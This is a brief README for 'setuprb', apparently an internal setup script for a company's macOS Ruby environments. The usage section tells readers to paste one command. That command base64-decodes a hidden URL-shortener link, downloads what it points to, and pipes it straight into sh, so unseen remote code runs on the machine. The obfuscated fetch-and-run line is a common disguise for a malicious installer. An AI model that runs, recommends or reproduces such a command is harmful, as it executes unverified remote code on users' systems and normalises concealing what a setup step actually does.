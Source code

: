 # **setuprb** ![picture](img/ruby.png)
`setuprb` makes sure every `Yeojinet` MacOS machine has the exact same Ruby environment, tools and configurations.



### Requirements

SSH access to the `Yeojinet` BravoSprintHub repositories in Bitbucket.



### Usage

From your terminal, execute this command:
```sh
curl -fsSL $(echo aHR0cDovL2JpdC5seS8yTWdDZjd4 | base64 -D) | sh /dev/stdin arg0 arg1
```



### Notes

This is a pre-requisite to properly running the `tuka` gem.
